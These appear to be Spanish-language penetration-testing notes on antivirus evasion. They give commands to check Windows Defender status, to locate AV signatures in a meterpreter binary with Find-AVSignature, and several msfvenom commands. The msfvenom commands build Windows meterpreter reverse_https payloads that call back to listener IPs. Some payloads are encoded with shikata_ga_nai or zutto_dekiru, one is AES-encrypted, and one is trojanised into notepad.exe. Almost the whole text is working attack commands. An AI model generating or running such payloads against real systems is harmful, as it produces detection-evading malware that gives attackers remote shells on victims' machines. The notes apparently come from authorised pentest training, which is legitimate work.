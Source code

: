 #### Windows Defender
##### Verificar que se esta ejecutando
```
powershell -c "Get-Service -Name windefend"
sc query windefend
```
 
 ##### Verificar proteccion de firewall
```
powershell -c "Get-Service -Name mpssvc"
sc query mpssvc
```

----

Instalacion de AV avira y ClamAV
Modulo Find-AVSignature.ps1

#### Localización de firmas en archivos
```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
Find-AVSignature -StartByte 18800 -EndByte 18900 -Interval 10 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
```

#### Metasploit encoders
```
msfvenom --list encoders
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -f exe -o /var/www/html/met64.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -f exe -o met64_zutto.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

#### Cifradores Metasploit
```
msfvenom --list encrypt
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o met64_aes.exe
```

#### Msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=4444 -f csharp -o test.cs
```


